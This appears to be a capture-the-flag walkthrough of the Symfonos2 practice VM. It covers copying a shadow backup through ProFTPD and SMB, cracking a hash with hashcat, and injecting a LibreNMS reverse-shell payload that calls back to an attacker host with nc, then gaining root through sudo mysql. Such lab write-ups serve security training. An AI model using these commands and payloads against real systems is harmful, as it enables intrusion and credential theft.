


# Symphono2 (Creatigon Basic Pentest)

---

- Nmap out

1. 21/ftp - ProFTPD 1.3.5
2. 22/ssh OpenSSH 7.4p1 Debian 10+deb9u6 (protocol 2.0)
3. 80/http WebFS httpd 1.21
   - server-header - webfs/1.21
4. 139/netbios-ssn Samba smbd 3.X - 4.X
5. 445/netbios-ssn Samba smbd 3.X - 4.X

- smbmap -> anonymous (Read only)

```sh
smbclient //$IP/anonymous
```

- get log.txt
- in log.txt

```
root@symfonos2:~# cat /etc/shadow > /var/backups/shadow.bak
root@symfonos2:~# cat /etc/samba/smb.conf
...
[anonymous]
   path = /home/aeolus/share
```

- smb anonymous is shared the /home/aeolus/share folder and shadow file is backed up at /var/backups

- open ftp $IP

```sh
site help
site CPFR /var/backups/shadow.bak
site CPTO /home/aeolus/share/shadow.bak
```

- copy shadow.bak file at smb anonymous share
- also copy /etc/passwd under smb anonymous share

- unshadow passwd, shadow files
- crack with hashcat for aeolus

```sh
hashcat -m 1800 aeolus /usr/share/wordlists/rockyou.txt
```

$6$dgjUjE.Y$G.dJZCM8.zKmJc9t4iiK9d723/bQ5kE1ux7ucBoAgOsTbaKmp.0iCljaobCntN3nCxsk4DLMy0qTn8ODPlmLG.:`sergioteamo`

- enter aeolus with password sergioteamo
- run linpeas.sh
- found active ports running as localhost

```
127.0.0.1:3306
127.0.0.1:8080
127.0.0.1:25
```

- ssh port forward to local machine
- inside our attacking machine

```sh
ssh -L 8080:127.0.0.1:8080 aeolus@$IP
```

- librenms running and found exploit `https://www.exploit-db.com/exploits/47044`



- payload inside Community

```
'$(rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 192.168.100.25 8889 >/tmp/f) #
```

- listen at your local host with port 8889
- then request to

```
http://127.0.0.1:8080/ajax_output.php?id=capture&format=text&type=snmpwalk&hostname=dummy%20device
```



- `sudo -l` ->

```
User cronus may run the following commands on symfonos2:
    (root) NOPASSWD: /usr/bin/mysql
```

- find at gtfobins

```
$ sudo mysql -e '\! /bin/sh'
whoami
root
```
